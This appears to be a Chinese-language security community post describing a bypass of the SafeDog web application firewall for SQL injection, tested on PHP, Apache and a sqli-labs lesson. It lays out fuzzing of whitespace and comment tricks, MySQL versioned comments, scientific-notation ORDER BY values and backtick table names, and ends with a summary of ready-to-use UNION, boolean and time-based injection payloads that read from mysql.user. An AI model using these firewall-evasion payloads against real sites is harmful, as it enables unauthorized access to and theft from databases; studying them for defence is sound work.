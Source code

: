 # 安全狗最新版sql注入Bypass

## 前言
文章比较啰嗦，文笔也不好，不想看的可以移到最后看payload

## 环境
```
safedog4.0.2.3957 + PHP5.5 + APACHE2 
```

源码使用得是sqlid-lesson1

 ![file](http://secquan.zzyuncheng.com/4f20414a07d58770d22d64aad6201eaf.png-source)

## 科普

其实几个月前我的贴子，我从判断安全狗拦截位置，然后fuzz出关键字之间/**!50000xxx**/就ok得注释

在mysql数据库中填充为空白得字符
```python
list = ['09', '0A', '0B', '0C', '0D', 'A0', '20']
list1 = ascii = [chr(i) for i in range(36, 48)]
```
注释

```
#
--
--+
/**/
/*char*/
;
```
等等，结合文章
[SQL Injection Bypassing WAF - OWASP](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF)

## 实践
这次我也从最简单得开始，哪里拦截就搞哪里

```
order by + 数字 拦截
and union{拦截}select xxx from{拦截}xxx
func{拦截}()
```
order by拦截后面的数字，之前我的方法是1-》01；2-》02，此次使用科学计数法绕过,以及奇特的八进制和16进制
```
0e +0 =0
order by 0e+0
```
![file](http://secquan.zzyuncheng.com/4a9e9ff633c7e47d90053b6c69948bd0.png-source)

在测试union select的时候,本来这个位置是要fuzz的，无意试了下/*!60000x*/，明显这里狗并没有怎么拦截.而这里的注释的意思/*!50000 select*/当mysql版本大于5.0时关注这个命令，小于则不关注,安全狗只会拦截select位置的注入关键字，稍后这个点就可以用到，发现函数调用user()=>/*!user*//*!()*/
![file](http://secquan.zzyuncheng.com/158710742c9e0030e551dd6cc72803cb.png-source)

from跟表名，我测试了一大堆fuzz，结果并没有什么结果，在基友的一个tips下 select * from `````mysql````.user
，到此 union bypass的字符串应该是
![file](http://secquan.zzyuncheng.com/81941edc01c8d35fddc521f9255a3ad0.png-source)
```
select id from user where id = '1' and 0x01 union /*!60000*/select 1,2,3 from `mysql0.user`；
```
![file](http://secquan.zzyuncheng.com/afc8fa1319f41e615fed11c627c7fe96.png-source)

## 别的想法
>布尔注入，因为我bypass的过程一直跟注释有关，因此
```
SELECT * FROM users WHERE id='1'=/*!user () regexp 0x5e72*/ -- +
```
![file](http://secquan.zzyuncheng.com/dafcc7e2a465a8d88d8f2aae691dbfe3.png-source)

![file](http://secquan.zzyuncheng.com/5d59cc9e580f4e672f2034e7f1a5e1e6.png-source)

别的，比如,圈子以前的创建变量
```
SELECT * FROM users WHERE id='1' and sleep/**/((select @a:=if(user/**/() regexp /*!'a'*/, 1, 2)))
```
![file](http://secquan.zzyuncheng.com/ad247773700395840e6061ed9e696a00.png-source)

## 总结

```
union select id from user where id = '1' and 0x01 union /*!60000*/select 1,2,3 from `mysql0.user`
bool  SELECT * FROM users WHERE id='1'=/*!user () regexp 0x5e72*/ -- +
bool SELECT * FROM users WHERE id='1' and sleep/**/((select @a:=if(user/**/() regexp /*!'a'*/, 1, 2)))
```


